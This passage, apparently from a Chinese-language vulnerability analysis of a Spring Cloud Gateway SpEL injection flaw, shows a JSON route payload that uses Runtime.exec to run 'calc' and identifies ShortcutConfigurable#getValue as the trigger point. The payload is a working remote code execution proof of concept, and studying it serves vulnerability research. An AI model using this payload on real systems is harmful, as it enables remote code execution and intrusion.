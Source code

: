 ![image-20220407211338960](images/2.png)

另外一种形式的payload

```
{
  "id": "hacktest",
  "predicates": [{
    "name": "Path",
    "args": {"_genkey_0":"#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"calc\"}).getInputStream()))}"}
  }],
  "uri": "http://example.com"
}
```

# 漏洞分析

漏洞的触发点在**org.springframework.cloud.gateway.support.ShortcutConfigurable#getValue**

![image-20220407214235554](images/3.png)

这里可以明显看到Spel的API，当entryValue可控的时候，可以去解析我们恶意的Spel表达式

可以看到大致的调用栈
